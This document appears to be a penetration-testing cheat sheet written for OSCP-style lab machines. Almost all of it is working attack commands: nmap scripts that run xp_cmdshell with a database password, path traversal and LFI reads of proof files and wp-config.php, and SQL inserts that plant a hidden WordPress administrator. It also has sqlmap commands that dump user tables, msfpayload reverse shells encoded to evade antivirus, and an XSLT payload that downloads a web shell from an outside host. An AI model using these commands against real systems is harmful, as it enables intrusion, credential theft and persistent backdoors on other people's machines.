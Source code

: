 # Useful command

## Scan

### NMAP
```
nmap -A -Pn -n --top-ports 10000 -vvv -oN 192.168.27.68
nmap -sV -T5 -F -A 10.11.1.5 --open --script vuln
nmap -A -Pn -sC 10.11.1.8
nmap 10.11.1.31 -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=poiuytrewq,mssql.instance-name=MSSQLSERVER,ms-sql-xp-cmdshell.cmd='type C:\"Documents and Settings"\Administrator\Desktop\proof.txt'
nmap 10.11.1.125 --script ftp*
```
### NIKTO
```
nikto -h 10.10.10.10:8000
```

### DIRBUSTER
```
dirb http://10.11.1.31
```

### SMB
```
enum4linux 10.11.1.8
smbclient //10.11.1.128/wwwroot
smbclient -L 10.11.1.128
```

### FTP
```
anonymous:anonymous
cd "Documents and Settings"
get servers.py

ls ../../../../../../../../../../../Docume~1/Administrateur/Bureau/
get
(remote-file) ../../../../../../../../../../../Docume~1/Administrateur/Bureau/proof.txt
(local-file) /root/Desktop/10.11.1.125.txt
```

### WORDPRESS

```
wpscan -u "http://10.11.1.234" --wordlist /usr/share/wordlists/rockyou.txt --username admin
```

## Get Shell & Listen:

https://github.com/emre-uzun/oscp/blob/master/Shell/Generating-Reverse-Shell.md

***

## Exploitation

### LFI

oneExample:
GET /../../../../xampp\php\extras\browscap.ini
GET /../../../../xampp/htdocs/blog/wp-config.php


### DB

#### Connect MariaDB
mysql -u root 10.10.10.10 -p Password@1

SQL Query for Wordpress:
```
INSERT INTO `databasename`.`wp_users` (`ID`, `user_login`, `user_pass`, `user_nicename`, `user_email`, `user_url`, `user_registered`, `user_activation_key`, `user_status`, `display_name`) VALUES ('4', 'demo', MD5('demo'), 'Your Name', 'test@yourdomain.com', 'http://www.test.com/', '2011-06-07 00:00:00', '', '0', 'Your Name');
 
 
INSERT INTO `databasename`.`wp_usermeta` (`umeta_id`, `user_id`, `meta_key`, `meta_value`) VALUES (NULL, '4', 'wp_capabilities', 'a:1:{s:13:"administrator";s:1:"1";}');
 
 
INSERT INTO `databasename`.`wp_usermeta` (`umeta_id`, `user_id`, `meta_key`, `meta_value`) VALUES (NULL, '4', 'wp_user_level', '10');
```

#### SQLMAP
```
sqlmap -r req2.txt --risk=3 --level=5 -p csid --dbms="MySQL" --dbs
sqlmap -r req2.txt --risk=3 --level=5 -p csid --dbms="MySQL" --tables -D cscart
sqlmap -r req2.txt --risk=3 --level=5 -p csid --dbms="MySQL" --columns -D cscart -T cscart_users
sqlmap -r req2.txt --risk=3 --level=5 -p csid --dbms="MySQL" --dump -D cscart -T cscart_users
```



***

## PRIVILAGE ESCALATION


https://github.com/emre-uzun/oscp/tree/master/privilage-escalation



## ANTIVIRUS BYPASS

Normal exploit

```
msfpayload windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 X > ~/Desktop/shell_reverse.exe
```

MSF Encoded Exploit

```
msfpayload windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 R | msfencode -e x86/shikata_ga_nai -t exe -c 9 -o ~/Desktop/shell_reverse_msf_encoded.exe
```

MSF Encoded Embedded Exploit

```
msfpayload windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 R | msfencode -e x86/shikata_ga_nai -t exe -c 9 -x /usr/share/windows-binaries/plink.exe -o ~/Desktop/shell_reverse_msf_encoded_embedded.exe
```

Custom Tool:

```
i586-mingw32msvc-gcc reverse.c -o ~/Desktop/custom-reverse.exe -lws2_32
```
### XXE
```
<?xml version='1.0'?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">
<msxsl:script language="C#" implements-prefix="user">
<![CDATA[
public string xml()
{
    System.Net.WebClient webClient = new System.Net.WebClient();
    webClient.DownloadFile("https://x.x.x.x/shell.aspx",
                       @"c:\inetpub\wwwroot\shell.aspx");

    return "Exploit Success";
}
]]>
</msxsl:script>
<xsl:template match="/">
<xsl:value-of select="user:xml()"/>
</xsl:template>
</xsl:stylesheet>
```

## FLAG & CAPTURE

```
whoami
ipconfig/ifconfig
type C:\"Documents and Settings"\Administrator\Desktop\proof.txt
cat /root/proof.txt
id
dir C:\ /s/b | find /i “proof.txt”
cat `find / -name proof.txt -print`
